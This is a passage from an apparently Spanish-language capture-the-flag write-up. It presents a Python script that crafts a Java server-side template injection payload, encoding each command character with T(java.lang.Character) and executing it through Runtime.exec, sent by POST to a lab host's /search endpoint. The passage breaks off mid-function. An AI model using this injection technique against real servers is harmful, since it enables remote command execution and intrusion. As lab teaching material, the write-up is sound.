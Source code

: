 ```text
# https://docs.oracle.com/javase/8/docs/api/java/lang/package-summary.html
```

> Es importante saber que estas ejecutando, no lo olviden
{: .prompt-tip}

Con la misma mecánica hice un script en `python` para una **Ejecución remota de comandos**:

```python
import requests # pip3 install requests
import signal
import sys

# pip3 install BeautifulSoup4 && pip3 install lxml
from bs4 import BeautifulSoup

# ctrl + c
def signal_handler(signum, frame):
    sys.exit('\n[!] Interrupted.')

signal.signal(signal.SIGINT, signal_handler)

# help panel
def help():
    print(f'\n[*] Use: python3 {sys.argv[0]} <command>')
    sys.exit()

# valid input
if len(sys.argv) != 2: help()

# variables
target = 'http://10.10.11.170:8080/search'
command = sys.argv[1]

# create payload (SSTI java)
def create_inyection(cmd):
    cmd_convertion = ''
    pos = 0
    for character in cmd:
        ascii_character = ord(character) # 97 = ord('a')
        java_convertion = f'T(java.lang.Character).toString({ascii_character})'
        # convertion by position (brackets)
        if pos == 0:
            cmd_convertion += java_convertion + '.concat('
        elif pos < len(cmd) - 1:
            cmd_convertion += (java_convertion + ').concat(')
        else:
            cmd_convertion += (java_convertion + ')')
        pos += 1

    payload = '*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(%s).getInputStream())}' % cmd_convertion
    return payload

# make post request
def make_request():

    try:
        session = requests.Session()

        headers = {'Content-Type' : 'application/x-www-form-urlencoded'}
        post_data = 'name=' + create_inyection(command)

        response = session.post(target, headers=headers, data=post_data)
```